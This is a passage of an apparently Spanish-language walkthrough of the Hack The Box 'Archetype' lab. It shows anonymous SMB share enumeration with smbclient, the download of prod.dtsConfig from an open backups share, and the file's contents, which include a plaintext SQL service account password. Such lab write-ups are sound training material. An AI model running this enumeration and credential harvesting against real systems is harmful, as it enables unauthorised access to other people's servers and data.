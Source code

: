 ```bash
❯ sudo smbclient -N -L 10.129.50.163

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
Tenemos el recurso compartido Backups, el cual no tiene ninguna password. por lo que vamos a acdeder a este.

```bash 
❯ smbclient -N \\\\10.129.50.163\\backups\\
```

Listamos el contenido:
```bash
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

		5056511 blocks of size 4096. 2616632 blocks available
```

Encontramos un archivo, que nos puede servir de algo, asi que lo descargamos usando "get".

```bash 
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2.8 KiloBytes/sec) (average 2.8 KiloBytes/sec)
```

Miramos el contenido del archivo:
```bash
❯ batcat prod.dtsConfig 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: prod.dtsConfig
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <DTSConfiguration>
   2   │     <DTSConfigurationHeading>
   3   │         <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
   4   │     </DTSConfigurationHeading>
   5   │     <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
   6   │         <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=Fa
       │ lse;</ConfiguredValue>
   7   │     </Configuration>
   8   │ </DTSConfiguration>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
